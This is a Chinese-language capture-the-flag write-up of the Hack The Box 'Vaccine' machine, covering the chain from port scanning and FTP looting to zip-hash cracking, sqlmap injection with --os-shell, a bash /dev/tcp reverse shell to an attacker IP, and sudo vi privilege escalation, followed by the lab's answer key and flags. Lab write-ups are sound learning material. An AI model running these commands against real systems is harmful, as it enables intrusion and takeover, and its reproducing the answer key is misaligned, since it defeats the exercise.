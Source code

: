 ```yaml
---
title: Hack the box Vaccine题解
tags: 
  - HTB
  - 渗透测试
permalink: /archives/28632/
createTime: 2023-04-02 12:10:06
---
```


>  在打靶机的时候网络有点问题，所以这份WP里的目标机器的IP前后是不一样的，但总的来说，方法大同小异

 # 扫端口

```shell
nmap -sC -sV 10.129.252.99
```

![image-20230402121345323](https://img.crzliang.cn/img/image-20230402121345323.png)

开启了21、22和80端口，访问80端口，什么都没有，结合任务1和任务2，就直接练上去看有没有东西

![image-20230402131255007](https://img.crzliang.cn/img/image-20230402131255007.png)

# ftp

连上以后把文件复制出来

![image-20230402131346467](https://img.crzliang.cn/img/image-20230402131346467.png)

# 破解zip密码

解压的时候发现是有密码的

![image-20230402131602635](https://img.crzliang.cn/img/image-20230402131602635.png)

看到任务4，和经过百度知道利用`zip2john`去获取压缩包的`hash`值，然后使用`john`去破解`hash`值

![image-20230402131644512](https://img.crzliang.cn/img/image-20230402131644512.png)

破解成功

![image-20230402132032683](https://img.crzliang.cn/img/image-20230402132032683.png)

# backup的内容

得到了两个文件

![image-20230402132448632](https://img.crzliang.cn/img/image-20230402132448632.png)

其中`index.php`里面有网站的管理员账号和密码，密码经过了md5加密，经过破解得到：`qwerty789`，这也是任务5的答案

![image-20230402132520686](https://img.crzliang.cn/img/image-20230402132520686.png)

![image-20230402132605551](https://img.crzliang.cn/img/image-20230402132605551.png)

# sql注入

登录到后台后有个搜索框尝试有无sql注入，发现可注入，加上任务6的提示，那就直接`sqlmap`一把梭

![image-20230402204507038](https://img.crzliang.cn/img/image-20230402204507038.png)

用`burpsuite`抓包保存到1.txt后，利用sqlmap进行注入，并利用`--os-shell`进行执行`shell`的命令

![image-20230402223030330](https://img.crzliang.cn/img/image-20230402223030330.png)

- 注入命令：

```shell
sqlmap -r 1.txt --os-shell 
```

# 反弹shell

- 攻击机监听

```shell
nc -lvvp 1234
```

- 在`--os-shell`里执行

```shell
bash -c "bash -i >& /dev/tcp/10.10.14.13/1234 0>&1"
```

在网站的根目录下的`dashboard.php`里发现了数据库的一个账号的密码

![image-20230402223929668](https://img.crzliang.cn/img/image-20230402223929668.png)

```
账号：postgres
密码：P@s5w0rd!
```

# 提权

在前面的端口扫描里看到这台机器是开启了22端口的，尝试使用上面得到的账号密码去登陆（想要用这个是因为为反弹shell后并不稳定，老是掉线，所以就换另一个方法），可以成功登录![image-20230402224519697](https://img.crzliang.cn/img/image-20230402224519697.png)

使用命令`suo -l`查看`postgres`能执行的高级权限的命令

![image-20230402224934023](https://img.crzliang.cn/img/image-20230402224934023.png)

发现有一个命令是：

```shell
(ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

然后看官方的wp得知，可以利用vi进行提权

>首先运行命令：sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
>输入`:`切换命令模式输入：set shell=/bin/sh
>
>在按一次`:`切换到命令模式输入：shell

然后就切换到了`root`用户

![image-20230402230044265](https://img.crzliang.cn/img/image-20230402230044265.png)

# 答案

> 1. FTP
> 2. anonymous
> 3. backup.zip
> 4. zip2john
> 5. qwerty789
> 6. --os-shell
> 7. vi
> 8. ec9b13ca4d6229cd5cc1e09980965bf7
> 9. dd6e058e814260bc70e9bbdef2715849

# 参考博客

[hack the box靶场Vaccine靶机](https://blog.csdn.net/zr1213159840/article/details/123693695)

[渗透测试练习靶场hackthebox——Starting Point Vaccine攻略（内附各种bug解决方案）](https://blog.csdn.net/m0_48066270/article/details/108696605)
